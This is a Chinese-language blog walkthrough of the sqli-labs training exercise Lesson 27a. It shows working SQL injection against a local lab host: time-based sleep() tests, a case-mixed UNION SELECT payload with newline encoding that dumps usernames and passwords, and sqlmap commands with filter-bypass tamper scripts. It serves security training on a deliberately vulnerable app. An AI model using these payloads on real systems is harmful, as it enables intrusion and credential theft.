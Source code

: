 ```yaml
---
title: sqli-labs lession-27a GET基于错误-你的UNION和SELECT归我所有-双引号
date: 2018-10-06 22:19:23
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-27a GET基于错误-你的UNION和SELECT归我所有-双引号

---

## 登录界面

![001](/img/sql/Lesson-27a/001.png)

## 注入

### 判断类型

由于没有报错信息只能通过时间函数来判断了。

`http://192.168.75.132/sql/Less-27a/?id=1%0Aand%0A1=2`

![002](/img/sql/Lesson-27a/002.png)

如果SQL语句是这样的话`	$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`会把传进去的`1 and 1=2`进行判断,左右两边都成立才会显示查询到的数据。明明右边不成力,这里直接却显示出了数据,肯定不是数字型。

字符型很好判断,因为id在数据库被设置为int类型,而在php中遇到字符串转换int类型时默认会把字符串的第一个字符转为数字,这里`1 and 1=2`的第一个是`1`,那么就转换成了1。对应的如果传进去的`a and 1=2`会拿`a`转数字,然而字母转数字默认为0,如果数据库中没有id=0的数据,就不会显示了。

![003](/img/sql/Lesson-27a/003.png)

用if()函数和sleep()函数判断。

`http://192.168.75.132/sql/Less-27a/?id=1"%0Aand%0Aif(1,sleep(60),null)%0Aand%0A"1`

![004](/img/sql/Lesson-27a/004.png)

可以判断这一课是使用双引号闭合的了。

### 过程

其他的和Lesson-26只是闭合方式不同,其他一样,直接上图。

`http://192.168.75.132/sql/Less-27a/?id=1"%0Aand%0A1=2%0AuNion%0AseLect%0A1,(seLect%0Agroup_concat(id,'~',username,'~',password)%0Afrom%0Asecurity.users%0A),3%0Aand"1`

![005](/img/sql/Lesson-27a/005.png)

{% post_link sqli-labs-lession-27-GET基于错误-你的UNION和SELECT归我所有-字符型单引号 点击查看Lesson-27 %}

## SQLMAP

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27a/?id=1" --technique B --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" --flush-session --fresh-queries -v 3 --level 2`

```
--technique B:检查布尔型注入方式
--threads 10：并发线程数为10
--method GET：使用GET方法
--tamper "UnionSelect.py,space0A.py,count.py"：绕过Union,Select，空格，count(*)
--flush-session:刷新session
--fresh-queries:发起新查询
-v 3：显示测试过程
--level 2：等级2才会检查双引号
```

![006](/img/sql/Lesson-27a/006.png)

![007](/img/sql/Lesson-27a/007.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27a/?id=1" --technique B --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" --dbs`

![008](/img/sql/Lesson-27a/008.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-27a/?id=1" --technique B --dbms mysql --threads 10 --method GET --tamper "UnionSelect.py,space0A.py,count.py" -D security -T users --columns --dump`

![009](/img/sql/Lesson-27a/009.png)